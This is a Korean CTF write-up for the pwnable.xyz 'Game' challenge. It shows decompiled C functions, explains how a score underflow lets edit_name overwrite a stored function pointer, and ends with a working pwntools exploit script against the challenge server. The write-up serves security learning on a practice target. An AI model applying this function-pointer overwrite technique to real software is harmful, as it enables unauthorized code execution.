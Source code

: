 ```yaml
---
title: "[pwnable.xyz]Game"
date: 2020-1-26
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


메인이다. 메뉴는 총 4개가 있다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  signed int v4; // eax

  setup();
  v3 = "Shell we play a game?";
  puts("Shell we play a game?");
  init_game();
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(v3, argv);
      v3 = "> ";
      printf("> ");
      v4 = read_int32();
      if ( v4 != 1 )
        break;
      (*(cur + 3))();
    }
    if ( v4 > 1 )
    {
      if ( v4 == 2 )
      {
        save_game();
      }
      else
      {
        if ( v4 != 3 )
          goto LABEL_13;
        edit_name();
      }
    }
    else
    {
      if ( !v4 )
        exit(1);
LABEL_13:
      v3 = "Invalid";
      puts("Invalid");
    }
  }
}
```

우선 `init_game` 함수를 보면 *cur에 name입력받은 16바이트 저장한다. 그리고 *(cur+3)에 play_game함수를 저장한다.

```c
char *init_game()
{
  char *result; // rax

  saves[0] = malloc(32uLL);
  cur = find_last_save();
  printf("Name: ");
  read(0, cur, 16uLL);
  result = cur;
  *(cur + 3) = play_game;
  return result;
}
```

이 함수는 별거 없다.

```c
unsigned __int64 play_game()
{
  __int16 v0; // dx
  __int16 v1; // dx
  __int16 v2; // dx
  __int16 v3; // dx
  int fd; // [rsp+Ch] [rbp-124h]
  int v6; // [rsp+10h] [rbp-120h]
  unsigned int buf; // [rsp+14h] [rbp-11Ch]
  unsigned int v8; // [rsp+18h] [rbp-118h]
  unsigned __int8 v9; // [rsp+1Ch] [rbp-114h]
  char s; // [rsp+20h] [rbp-110h]
  unsigned __int64 v11; // [rsp+128h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  read(fd, &buf, 0xCuLL);
  close(fd);
  v9 &= 3u;
  memset(&s, 0, 0x100uLL);
  snprintf(&s, 0x100uLL, "%u %c %u = ", buf, ops[v9], v8);
  printf("%s", &s);
  v6 = read_int32();
  if ( v9 == 1 )
  {
    if ( buf - v8 == v6 )
      v1 = *(cur + 8) + 1;
    else
      v1 = *(cur + 8) - 1;
    *(cur + 8) = v1;
  }
  else if ( v9 > 1 )
  {
    if ( v9 == 2 )
    {
      if ( buf / v8 == v6 )
        v2 = *(cur + 8) + 1;
      else
        v2 = *(cur + 8) - 1;
      *(cur + 8) = v2;
    }
    else if ( v9 == 3 )
    {
      if ( v8 * buf == v6 )
        v3 = *(cur + 8) + 1;
      else
        v3 = *(cur + 8) - 1;
      *(cur + 8) = v3;
    }
  }
  else if ( !v9 )
  {
    if ( v8 + buf == v6 )
      v0 = *(cur + 8) + 1;
    else
      v0 = *(cur + 8) - 1;
    *(cur + 8) = v0;
  }
  return __readfsqword(0x28u) ^ v11;
}
```

`save_game ` 함수는 청크를 복사해준다.

```c
int save_game()
{
  _QWORD *v0; // rcx
  __int64 v1; // rdx
  __int64 v2; // rdx
  __int64 v3; // rax
  signed int i; // [rsp+Ch] [rbp-4h]

  for ( i = 1; i <= 4; ++i )
  {
    if ( !saves[i] )
    {
      saves[i] = malloc(32uLL);
      v0 = saves[i];
      v1 = *(cur + 1);
      *v0 = *cur;
      v0[1] = v1;
      *(saves[i] + 16) = *(cur + 8);
      *(saves[i] + 24) = play_game;
      v2 = i;
      v3 = saves[v2];
      cur = saves[v2];
      return v3;
    }
  }
  LODWORD(v3) = puts("Not enough space.");
  return v3;
}
```

edit_name() 함수에서는 name만큼 값을 쓸 수 있다.

```c
ssize_t edit_name()
{
  size_t v0; // rax

  v0 = strlen(cur);
  return read(0, cur, v0);
}
```

구조체는 name | score | fucntion *ptr 이런식으로 되있을 거다.

익스할 때 처음에 일단 name에서 16개를 꽉 채워서 보내는 이유는 size와 합쳐져서 널 바이트를 없애 3번 메뉴에서 더 많이 받을 수 있다.

우선 1번 메뉴 play를 해서 지면 score이 -1이 된걸 볼 수 있는데 디버깅해보면 값은 0xffff가 들어간다. 이제 save로 복사하면 새로운 청크가 생기면서 값들이 복사된다. 여기서0xffffffffffffffff가 들어간다. 

그래서 name(16) + 0xffffffffffffffff(8) + 0x0400aca(3) 이렇게 된다. 그래서 우리는 총 27바이트를 입력할 수 있다. 이제 0x0400aca를 덮을 수 있다. 3바이트를 덮을 수 있으니까 0x4009d6주소인 win으로 덮으면 1번 메뉴 실행할 때마다 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30009)

p.sendafter(':','A'*16) # name
p.sendlineafter('>','1') # play
p.sendafter('=','1') # anything
p.sendlineafter('>','2') # save
p.sendlineafter('>','3') # read(0,cur,sizeof(cur))
payload = 'A'*24 + p16(0x9d6) # size -> 2byte & 0x4009d6 -> win();
p.send(payload)

p.interactive()
```

